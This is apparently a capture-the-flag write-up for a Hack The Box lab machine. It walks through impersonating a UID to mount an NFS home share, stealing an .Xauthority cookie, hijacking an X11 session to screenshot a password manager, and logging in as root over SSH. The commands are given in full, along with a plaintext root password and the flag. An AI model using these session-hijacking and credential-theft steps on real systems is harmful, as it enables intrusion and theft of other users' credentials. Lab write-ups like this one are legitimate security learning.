 ## NFS Imitation 2.0

1) Thinking back to our initial enumeration, we recall the second file-share available, namely ross ' home  directory. As we initially saw and later confirmed, we need to imitate UID/GID 1001 in order to read its  contents; we locally apply the same commands as with hacker :
```
┌──(kali㉿kali)-[~]
└─$ sudo useradd hacker2   
[sudo] password for kali: 

┌──(kali㉿kali)-[~]
└─$ sudo usermod -u 1001 hacker2 

┌──(kali㉿kali)-[~]
└─$ sudo groupmod -g 1001 hacker2

┌──(kali㉿kali)-[~]
└─$ sudo umount /mnt             

┌──(kali㉿kali)-[~]
└─$ sudo mount -t nfs 10.10.11.191:/home/ross /mnt

┌──(kali㉿kali)-[~]
└─$ sudo su hacker2

```

Having successfully imitated ross and therefore gaining read privileges (though still not being able to write  anything to the directory), we can now take a look at files of interest.


------------------------
## X11

X is a portable, network-transparent window system for managing a windowed GUI. Essentially, when paired  with a display manager, it serves as a full-fledged GUI which you can use to run programs that might not run  headlessly.  

1) 7) Set up an HTTP server in the /tmp directory:
--> In the local Machine:
```
$ python3 -m http.server 80
```
2)  From the shell as alex, I’ll fetch this file with `curl`, and write it to `/tmp`:
--> In the Reverse Shell
```
$ curl http://10.10.14.209/.Xauthority -o /tmp/.Xauthority
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100    49  100    49    0     0    426      0 --:--:-- --:--:-- --:--:--   426
$
```

<------------------------------------- In The Reverse Shell -------------------------------------------->

3) We can now interact with the display, since we have essentially hijacked ross ' session. In order to see what  is happening on the display, we can take a screenshot and open it locally. To do that, we need to know  which display ross is using, which can be done using the w command.
```
$ w        

 20:02:50 up 14:52,  1 user,  load average: 0.06, 0.02, 0.00                                                        
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT                                                 
ross     tty7     :0               05:11   14:51m  1:27   0.05s /usr/libexec/gnome-session-binary --systemd --session=gnome  
```
4) I see the process
```
 $ ps -aux  

   ross        1612  0.1  5.0 777076 101556 ?       SLl  05:11   1:05 /usr/bin/keepassxc --pw-stdin --keyfile /usr/share/keepassxc/keyfiles/ross/keyfile.key /usr/share/keepassxc/databases/ross/Passwords.kdbx
   ```

5) I see the file that I have see in the process
```
$ cd /home/ross
$ cd Documents
$ ls
Passwords.kdbx
$ 
```

6) I spawn the file containing the root credentials
```
$  xwd -root -screen -silent -display :0 -out dump        
No protocol specified
xwd:  unable to open display ':0'
```

7) Setting the cookie is as easy as pointing the environment variable XAUTHORITY to our cookie file:
```
$ XAUTHORITY=/tmp/.Xauthority
$ export XAUTHORITY
```

8) I spawn the file containing the root credentials
```
$ xwd -root -screen -silent -display :0 -out dump 
$ 
```

9) I bring the file inside the Web Application
```
$ mv dump /var/www/html/
```

10) I download the file "dump"
---> In Local machine
```
┌──(kali㉿kali)-[~]
└─$ curl http://10.10.11.191/dump -o dump      
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100 1878k  100 1878k    0     0  2089k      0 --:--:-- --:--:-- --:--:-- 2089k
```

11) I discover the credentials
```
┌──(kali㉿kali)-[~]
└─$ xwud -in dump
```

12) I have discover the password of root:
```
cah$mei7rai9A
```

13) I log into the ssh service and read root.txt:
```
┌──(kali㉿kali)-[~]
└─$ ssh root@10.10.11.191                       
The authenticity of host '10.10.11.191 (10.10.11.191)' can't be established.
ED25519 key fingerprint is SHA256:RoZ8jwEnGGByxNt04+A/cdluslAwhmiWqG3ebyZko+A.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.11.191' (ED25519) to the list of known hosts.
root@10.10.11.191's password: 
Welcome to Ubuntu 20.04.5 LTS (GNU/Linux 5.4.0-131-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Wed 28 Dec 2022 08:41:37 PM UTC

  System load:             0.01
  Usage of /:              74.5% of 5.79GB
  Memory usage:            34%
  Swap usage:              0%
  Processes:               278
  Users logged in:         1
  IPv4 address for ens160: 10.10.11.191
  IPv6 address for ens160: dead:beef::250:56ff:feb9:d35c


0 updates can be applied immediately.


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Wed Dec 28 16:49:52 2022 from 10.10.14.116
root@squashed:~# ls
Desktop  Documents  Downloads  Music  Pictures  Public  root.txt  scripts  snap  Templates  Videos
root@squashed:~# cat root.txt
889cab2ad9d08b4ea7720d12392197d7
```





